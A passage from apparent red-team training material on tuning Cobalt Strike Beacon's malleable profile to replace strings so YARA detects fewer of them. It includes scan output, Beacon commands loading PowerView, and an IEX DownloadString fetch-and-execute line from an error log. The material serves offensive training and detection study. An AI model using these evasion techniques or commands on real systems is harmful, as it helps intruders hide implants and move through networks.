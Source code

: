   

This can replace strings with Beacon's reflective DLL.  If we use this profile and generate new shellcode, YARA flags on fewer strings.

```
C:\Tools\YARA>yara64.exe -s beacon_strings.yara 6368
beacon_strings 6368
0x1a475bfd72c:$c: %02d/%02d/%02d %02d:%02d:%02d
0x1a475bfd758:$c: %02d/%02d/%02d %02d:%02d:%02d
0x1a475bfd700:$d: %s as %s\%s: %d
```

  

---

#### Warning on String Replacement

I've seen people attempt to replace practically every string they can find in the Beacon payload, break functionality, and not understand why.  Take the following example:

```
strrep "HTTP/1.1 200 OK" "";
```

Beacon contains a tiny built-in HTTP server, used in workflows such as `powershell-import`, `powershell` and `powerpick`.  Imported scripts are fetched and executed from this internal webserver.

```shell
beacon> powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1
beacon> powerpick Get-Domain

beacon> powerpick Get-Domain
[+] received output:
ERROR: DownloadString : Exception calling "DownloadString" with "1" argument(s): "The server committed a p
ERROR: rotocol violation. Section=ResponseStatusLine"
ERROR: 
ERROR: At line:1 char:46
ERROR: + IEX (New-Object Net.Webclient).DownloadString <<<< ('http://127.0.0.1:41100/'); Get-Domain
ERROR:     + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
ERROR:     + FullyQualifiedErrorId : DotNetMethodException
ERROR:  
ERROR: Get-Domain : The term 'Get-Domain' is not recognized as the name of a cmdlet, function, script file
ERROR: , or operable program. Check the spelling of the name, or if a path was included, verify that the p
ERROR: ath is correct and try again.
```

PowerShell throws a _protocol violation_, because Beacon's internal server is no longer returning properly-formatted HTTP responses.  This can be seen in these example Wireshark captures.

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/sleep-mask/strrep-fail.png)

  

---